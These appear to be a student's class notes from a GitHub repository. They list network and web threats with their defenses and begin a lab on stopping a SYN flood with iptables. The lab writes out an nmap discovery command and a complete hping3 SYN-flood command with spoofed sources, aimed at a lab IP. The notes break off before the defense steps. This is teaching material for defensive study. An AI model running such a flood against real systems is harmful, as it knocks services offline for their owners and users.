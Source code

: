 ## Threat

##### Internet
  
    1, DDoS
    2, APT
    3, Spoofing
    
###### Safety Defense
    
    1, Firewall
    2, IDS/IPS
    3, Honeypot
    
##### Website(Database)(Web Application)

    1, OWASP TOP10
    
###### Safety Defense

    1, WAF(Web Application Firewall)
    
## Practice(Using Iptable to Defense SYN Flood Attack)

##### Platform

    Attack Computer: Distro: Kali GNU/Linux 2020.3  Kernel: 5.7.0-kali1-amd64 x86_64
    
    Defense Computer: Distro: Ubuntu 20.04.1 LTS  Kernel: 5.4.0-54-generic x86_64
    
##### Step

###### 1, find target by using command "ip addr" on target Computer or "nmap -sn {ip}" on Attack Computer
###### 2, In this case we just going to use ip addr on Target Computer

![alt text](https://github.com/LunarstarPony/iPAS/blob/main/Class_Files/11_17_2020/1.png?raw=true)

###### 3, Start the attack using `hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 172.20.174.138`

![alt text](https://github.com/LunarstarPony/iPAS/blob/main/Class_Files/11_17_2020/2.png?raw=true)

![alt text](https://github.com/LunarstarPony/iPAS/blob/main/Class_Files/11_17_2020/3.png?raw=true)
    
